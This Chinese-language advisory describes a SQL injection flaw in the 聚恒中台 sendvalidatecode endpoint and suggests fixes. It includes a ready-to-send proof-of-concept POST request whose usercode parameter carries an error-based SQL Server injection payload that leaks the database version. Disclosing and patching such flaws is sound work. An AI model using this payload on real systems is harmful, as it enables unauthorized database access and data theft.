






# 聚恒中台 sendvalidatecode SQL注入漏洞

## 漏洞描述

聚恒中台 `/sysplat/dataget/data.ashx?type=sendvalidatecode` 接口存在 SQL 注入漏洞。攻击者通过 `usercode` 参数构造报错注入语句，可提取数据库敏感信息。

## 漏洞复现



```
POST /sysplat/dataget/data.ashx?type=sendvalidatecode HTTP/1.1
Host: target
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 53
Content-Type: application/x-www-form-urlencoded

usercode=1' and 1=(convert(int,@@version))--&mobile=
```



poc1.png 中响应通过 SQL Server 报错回显数据库版本信息；该截图支持所示 `@@version` 报错注入现象。其余 poc2.png 至 poc6.png 展示的是扫描器结果或通用工具界面，没有呈现管理员账号、密码哈希的提取结果，因此本文不据这些图片声称已完成凭据字段提取。









## 漏洞修复

1. 对 `usercode` 等参数使用预编译语句，禁止字符串拼接 SQL；
2. 关闭详细报错回显，升级至安全版本。

> 仅限授权测试。

来源原文：[聚恒中台 sendvalidatecode 接口存在 SQL 注入，附 POC](https://github.com/gelusus/wxvl/blob/4266b45d974a92de5c1cdd1c440321ebfca53139/doc/2026-10/%E8%81%9A%E6%81%92%E4%B8%AD%E5%8F%B0sendvalidatecode%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%20%C2%A0%E9%99%84POC.md)。本地截图分别保留原始材料；只有 poc1.png 显示了此文所述请求与数据库版本错误。
